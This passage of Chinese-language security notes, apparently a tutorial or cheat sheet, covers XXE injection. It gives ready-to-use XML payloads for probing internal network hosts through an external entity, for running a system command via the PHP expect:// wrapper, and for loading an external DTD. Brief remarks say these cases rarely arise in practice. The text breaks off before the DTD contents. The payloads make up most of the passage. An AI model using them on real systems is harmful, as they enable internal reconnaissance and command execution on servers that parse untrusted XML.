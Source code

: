 ###### 内网探针或攻击内网应用（触发漏洞地址）

实际应用中基本碰不到

前提条件

- 内网IP地址
- 开放端口
- 纯在xxe漏洞
- 构造漏洞地址

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY rabbit SYSTEM "http://ip:端口/访问的文件名" >
]>
<x>&rabbit;</x>
```

eg

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY rabbit SYSTEM "http://192.168.132.139:80" >
]>
<x>&rabbit;</x>
```

###### 玩法-RCE

这个玩法是在安装expect扩展的 PHP 环境里执行系统命令实际应用中很难碰到

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "expect://id" >
]>
<x>&xxe;</x>
```

###### 引入外部实体 dtd

对于这种方式来说，如果外部实体被禁用是不能使用这种方式的。

```xml
<?xml version="1.0" ?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "http://127.0.0.1:80/index.dtd">
%file;
]>
<x>&send;</x>
```

外部dtd的内容

